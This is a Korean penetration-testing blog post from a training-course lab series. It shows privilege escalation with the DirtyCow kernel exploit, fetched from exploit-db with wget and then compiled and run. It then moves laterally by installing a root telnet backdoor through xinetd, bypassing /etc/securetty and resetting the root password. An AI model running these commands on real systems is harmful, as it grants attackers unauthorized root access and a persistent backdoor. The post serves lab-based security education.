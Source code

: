 ```yaml
---
layout: post
title: fngs.kr | 6. 권한 상승 및 Lateral Movement
subtitle: fngs.kr 6. 권한 상승 Lateral Movement 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

웹 쉘을 통해 2차 침투를 위한 리버스 쉘을  커널 버전이 취약한 것을 확인했다. 이번에는 권한 상승인 **Privilege Escalation** 전략을 사용할 것이다.

## Privilege Escalation

공격자는 더 높은 수준의 권한을 얻으려고 합니다.

웹 쉘로 접근 했을 때는 관리자 권한이 아니고 제한적(제 3자의 권한)이기에 권한 상승을 통한 추가 공격을 진행할 것이다.

권한 상승은 공격자가 시스템 또는 네트워크에 대한 더 높은 수준의 권한을 얻기 위해 사용하는 기술로 구성됩니다. 공격자는 종종 권한 없는 액세스로 네트워크에 들어가 탐색할 수 있지만 목표를 달성하려면 높은 권한이 필요합니다.

### Exploitation for Privilege Escalation

공격자는 권한을 높이기 위해 소프트웨어 취약점을 악용할 수 있습니다. 소프트웨어 취약점의 악용은 공격자가 프로그램, 서비스 또는 운영 체제 소프트웨어 또는 커널 자체의 프로그래밍 오류를 이용하여 공격자가 제어하는 ​​코드를 실행할 때 발생합니다.

권한 수준과 같은 보안 구성은 종종 정보에 대한 액세스와 특정 기술의 사용을 방해하므로 공격자는 이러한 제한을 우회하기 위해 소프트웨어 악용을 포함하도록 권한 상승을 수행해야 할 것입니다.

저번 실행 및 발견을 통해 해당 커널 버전이 취약하다는 것을 확인했다. 

권한 상승을 위한 악용으로는 **CVE-2016-5195(DirtyCow)**를 이용할 것이다.

#### DirtyCow

4.8.3 이전 버전인 리눅스 커널 2.x에서 4.x까지의 mm/gup.c 단위의 Race Condition은 로컬 사용자가 읽기 전용 메모리 매핑에 쓰기 위해 COW(Copy-On-Write) 기능을 잘못 처리함으로써 권한을 얻을 수 있게 한다.

**즉, Copy-On-Write 취약점을 이용한 Race Condition을 유발하는 것이다.**

자세한 내용을 [링크](https://www.cvedetails.com/cve/CVE-2016-5195/?q=CVE-2016-5195)를 통해서 확인해보길 바랍니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183238308-ec01767d-3488-4e38-be8a-8ff2e61e7d19.png" width = 580>
</p>

> 리버스 쉘으로 진행할 것이다.

```bash
wget https://www.exploit-db.com/exploits/40616 -O cowroot.c # File Download
gcc cowroot.c -o cowroot -pthread
./cowroot # <--------- <주의> 아래를 먼저 읽고 진행하세요.
```

* gcc -pthread : .c 파일 내에서 `pthread`를 사용한다. 하지만 Linux에서 gcc 컴파일 시 pthread에 대한 라이브러리를 자동으로 링킹해주지 않기에 해당 옵션으로 링킹을 해줘야한다.

**지금부터 잘못 했을 경우 피해자 시스템에 대한 정보를 모두 날리고 진행해야합니다. 스냅샷을 해두시길 바랍니다.**

우리는 다운로드 받은 cowroot.c를 컴파일하여 실행 파일로 만들었다.

해당 취약점을 이용한 악용을 커널에 대해 비정상적으로 접근하기에 커널 패닉으로 인한 먹통이 일어날 수 있다. 따라서, 커널 패닉 발생을 차단하기 위한 코드를 미리 준비해둬야 한다.

```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
mv /tmp/bak /usr/bin/passwd
```

* 위 코드를 메모장에 적어두고 복사-붙여넣기를 미리 준비해둔다.

`./cowroot`를 하자마자 바로 터미널에 두 명령어를 붙여넣고 `id`를 하면 root 권한으로 변경된 것을 확인 할 수 있다.

_필자는 이미 진행 했기에 연결 접속 해제 이후 추가 접속이 불가하기에 예시 사진을 보여드릴 수 없습니다._

이렇게 root 권한을 탈취 성공 하였다면 해당 추가적인 접근 움직임을 **Lateral Movement** 전술이라 한다.

## Lateral Movement

공격자가 네트워크의 원격 시스템에 진입하고 제어하는 ​​데 사용하는 기술로 구성됩니다. 주요 목표를 달성하려면 종종 네트워크를 탐색하여 목표를 찾은 다음 액세스 권한을 얻어야 합니다. 

우리는 원격 접속 서비스의 대표적인 텔넷을 악용하여 내부 시스템에 접근할 것이다. 텔넷을 이용한 백도어로 설치를 진행하겠습니다.

**네트워크 이동 뿐만 아니라 계정간 이동도 Lateral Movement라 한다.**

### Remote Service

공격자는 유효한 계정 을 사용하여 **Telnet, SSH 및 VNC**와 같은 원격 연결을 허용하도록 특별히 설계된 서비스에 로그인할 수 있습니다. 그런 다음 공격자는 로그온한 사용자로 작업을 수행할 수 있습니다.

대부분의 서비스들은 사용하지 않는 서비스 및 프로그램(Telnet, SSH)를 설치 하지 않았을 것이다.

하지만, 우리는 root 권한을 가지고 있기에 Telnet을 설치할 것이다.(추가로 리버스 쉘을 통해서 접근해보면 환경 변수가 제대로 적용 되어 있지 않기에 환경 변수도 수정해줄 것이다.)

```bash
export PATH=$PATH:/usr/local/bin
export PATH=$PATH:/usr/sbin
export PATH=$PATH:/sbin
```

```bash
apt-get install -y xinetd telnetd # Install telnet service
```

* 텔넷에 대한 config를 수정해야하는데 `vi`도 되지 않을 것이다. `echo`를 이용하여 config를 수정해준다.

```bash
echo -e "service telnet\n{\n    disable = no\n    flags = REUSE\n    socket_type = stream\n    wait = no\n    user = root\n    server = /usr/sbin/in.telnetd\n    log_on_failure += USERID\n}" > /etc/xinetd.d/telnet
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183238855-c2bc402b-fc83-4d65-a8db-b216ea4f1b73.png" width = 290>
</p>

* `cat /etc/xinetd d/telnet`로 제대로 적용됐는지 확인해본다.

* `mv /etc/securetty /etc/securetty.old`
  * `securetty`은 터미널을 root 계정으로 접근할 수 있는 ID를 모아둔 것으로 root 계정을 해당 파일에 등록하면 괜찮지만, 변경보단 파일명을 인식하지 못하게 변경하여 우회하여 접근하는 것이다.

* `sudo passwd`로 root 패스워드를 변경한다.

* `service xinetd restart`로 재시작하고 `telnet dev.fngs.kr`를 하고 ID(root), PW를 입력하면 아래처럼 root 권한으로 접근한 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183239041-42e98daf-7254-4146-9388-8c33d3ac05f3.png" width = 450>
</p>
